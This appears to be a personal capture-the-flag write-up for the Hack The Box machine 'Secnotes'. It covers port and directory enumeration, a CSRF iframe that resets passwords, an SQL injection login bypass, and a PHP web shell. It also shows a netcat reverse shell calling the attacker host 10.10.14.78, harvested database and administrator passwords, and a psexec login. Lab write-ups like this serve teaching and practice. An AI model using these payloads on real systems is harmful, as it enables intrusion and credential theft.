







# Summary


## about target

tip:  10.129.25.214

hostname:  Secnotes

Difficulty:  Medium


## about attack

+ exploit csrf, uncommon
+ exploit sqli, check  the login and register. 登录后查询处注入，不常见；
+ windows sublinux exploit to privesc,  linux file location `C:\Users\%USERNAME%\AppData\Local\Packages\CanonicalGroupLimited.UbuntuonWindows_79rhkp1fndgsc\LocalState\rootfs`


**attack note**

```bash
secnotes / 10.129.25.214

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows


-- Enum 

---- smb , nothing


---- http

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip:80/ -o gobuster-80.log -x php,txt

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip:8808/ -o gobuster.log


user brute 
wfuzz -c -w /usr/share/seclists/Usernames/Names/names.txt -d "username=FUZZ&password=password" --hs "No account found with that username" http://10.129.25.214/login.php


sign up and login, test/Password1

/contact.php, found user tyler
sm
## exploit csrf
# html page, test csrf, change password.
<html>
    <iframe src="http://10.129.25.214/change_pass.php?password=Password&confirm_password=Password&submit=submit"> </iframe>
</html>

# contact.php, send the link to tyler.
http://10.129.25.214/change_pass.php?password=Password&confirm_password=Password&submit=submit

# login via tyler/Password; login failed. not clue.

## tyler shell

PS C:\inetpub\wwwroot> type tmp
type tmp
aqsaj901crhlin5t5sapfvt18k

define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'secnotes');
define('DB_PASSWORD', 'q8N#9Eos%JinE57tke72');
//define('DB_USERNAME', 'root');
//define('DB_PASSWORD', 'qwer1234QWER!@#$');
define('DB_NAME', 'secnotes');


ls "Program Files (x86)“

psexec.py administrator:'u6!4ZwgwOM#^OBf#Nwnh'@$tip


### wfuzz error
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

https://stackoverflow.com/questions/55929011/pycurl-is-not-compiled-against-openssl-when-i-trie-to-use-wfuzz-how-to-solve-th

sudo apt --purge remove python3-pycurl
sudo apt install libcurl4-openssl-dev libssl-dev
pyenv global 3.10.6
pip install pycurl wfuzz

```


# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Secure Notes - Login
|_Requested resource was login.php
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: HTB)
8808/tcp open  http         Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows
```


## Enum

-- Smb, no share.


-- http 

dir scan, no insteresting thins.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip:80/ -o gobuster-80.log -x php,txt

gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip:8808/ -o gobuster.log

```

http port 80, login page.

default admin/admin, admin/password, not work.


Register account, test/Password; login

Change password, csrf. 

also found the tyler@secnotes.htb



/contact.php, send url  then the target access the url.

check csrf.

```bash
# html page, test csrf, change password.
<html>
    <iframe src="http://10.129.25.214/change_pass.php?password=Password&confirm_password=Password&submit=submit"> </iframe>
</html>

```

send to contact,  http://10.10.14.78/test.html; 

got access back.




# Exploitation

## csrf reset pwd

send change pass url, and reset the tyler password.

```bash
http://10.129.25.214/change_pass.php?password=Password&confirm_password=Password&submit=submit
```

exploit failed, no clue.  password reset not work.


when reset password, login via tyler. 

got the tyler pwd and smb share. New-site, which is the port 8808

```bash
smbclient \\\\$tip\\new-site -U tyler

```

upload php shell  and nc.exe

```bash
<?php echo shell_exec($_GET['cmd']); ?>
```

get reverse 

```bash
http://10.129.25.9:8808/evil.php?cmd=nc.exe%2010.10.14.78%204444%20-e%20powershell
```


## sql injection

this from the ipsec video.

smb download the php file, inetpub\wwwroot\\*.php

when user login, note search with param username vulnerable to sqli.

username from the session var username, which is from login request.

```bash
grep -B5 -A5 -i "sql" *.php
grep -B5 -A5 -i "$username" *.php
grep -B5 -A5 -i "_Session[" home.php login.php auth.php
```




exploit

register user, and login. 

got all the notes, which contains the Tyler's password.

```bash
username: hello' or '1'='1'-- -
password: hello123
```




# Privesc


## Local Enum

found some creds in wwwroot php file.

```bash
PS C:\inetpub\wwwroot> type tmp
type tmp
aqsaj901crhlin5t5sapfvt18k

define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'secnotes');
define('DB_PASSWORD', 'q8N#9Eos%JinE57tke72');
//define('DB_USERNAME', 'root');
//define('DB_PASSWORD', 'qwer1234QWER!@#$');
define('DB_NAME', 'secnotes');
```


wpeas.exe, found the sublinux ubuntu.

user tyler desktop, bash.lnk, another lead.



Exploit, wsl.exe not found.

check wpeas.log again, found the bash_history file. Contains the administrator pwd.

```bash
C:\Users\tyler\AppData\Local\Packages\CanonicalGroupLimited.Ubuntu18.04onWindows_79rhkp1fndgsc\LocalState\rootfs
```





## System

connect via psexec.py

```bash
psexec.py administrator:'u6!4ZwgwOM#^OBf#Nwnh'@$tip
```




## proof

```bash


```


